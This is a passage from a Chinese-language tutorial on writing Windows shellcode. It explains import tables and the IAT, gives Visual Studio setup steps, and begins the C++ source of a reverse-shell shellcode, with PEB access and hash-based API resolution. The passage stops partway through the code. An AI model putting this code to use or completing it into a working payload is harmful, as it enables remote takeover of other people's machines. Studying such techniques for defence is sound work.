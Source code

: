 #### 不直接调用Windows API

在`C/C++`代码中，我们不能编写

```
WaitForSingleObject(procInfo.hProcess, INFINITE);

```

因为`kernel32.dll`中已导入了“`WaitForSingleObject`”函数。

在`nutshell`中，`PE`文件含有导入表和导入地址表（`IAT`）。导入表含有被导入到库中的函数的信息。当执行体被加载时，通过`Windows loader`编译`IAT`，并且其含有已导入的函数地址。该执行体的代码用间接寻址调用已导入到库中的函数。例如：

```
 001D100B FF 15 94 20 1D 00    call        dword ptr ds:[1D2094h]

```

地址`1D2094h`为入口地址（在`IAT`中），该地址含有函数 `MessageBoxA`的地址。因为如上调用函数的地址无需被修复（除非执行体被重定位），所以可以直接使用该地址。`Windows loader`只需要修复的是在`1D2094h`地址，该`dword`值是`MessageBoxA`函数的地址。

解决方案是直接从`Windows`的数据结构中得到`Windows`的函数地址。之后我们将会了解到。

#### 创建新项目

通过 `File→New→Project…`, 选择 `Installed→Templates→Visual C++→Win32→Win32 Console Application`, 为项目命名 (我将其命名为 `shellcode`) 接着点击OK。

通过 `Project→<project name> properties` 将出现新会话框。通过将 `Configuration`（会话的左上方）设置为`All Configurations`将修改应用到所有配置（`Release`和`Debug`）。接着，展开`Configuration Properties`并且在`General` 下修改`Platform Toolset` 。该编译器为`Visual C++ Compiler Nov 2013 CTP`(CTP_Nov2013)。

这样你将可以使用`C++11`和`C++14`的一些特性，如`static_assert`。

#### Shellcode范例

这是一段简单的反向`shell`代码（定义）。将命名为`shellcode.cpp`的文件添加到项目中并将该代码复制到`shellcode.cpp`。不要试图理解所有的代码。后面我们还会对其进行进一步的讨论。

```
// Simple reverse shell shellcode by Massimiliano Tomassoli (2015)
// NOTE: Compiled on Visual Studio 2013 + "Visual C++ Compiler November 2013 CTP".
 
#include <WinSock2.h>               // must preceed #include <windows.h>
#include <WS2tcpip.h>
#include <windows.h>
#include <winnt.h>
#include <winternl.h>
#include <stddef.h>
#include <stdio.h>
 
#define htons(A) ((((WORD)(A) & 0xff00) >> 8) | (((WORD)(A) & 0x00ff) << 8))
 
_inline PEB *getPEB() {
    PEB *p;
    __asm {
        mov     eax, fs:[30h]
        mov     p, eax
    }
    return p;
}
 
DWORD getHash(const char *str) {
    DWORD h = 0;
    while (*str) {
        h = (h >> 13) | (h << (32 - 13));       // ROR h, 13
        h += *str >= 'a' ? *str - 32 : *str;    // convert the character to uppercase
        str++;
    }
```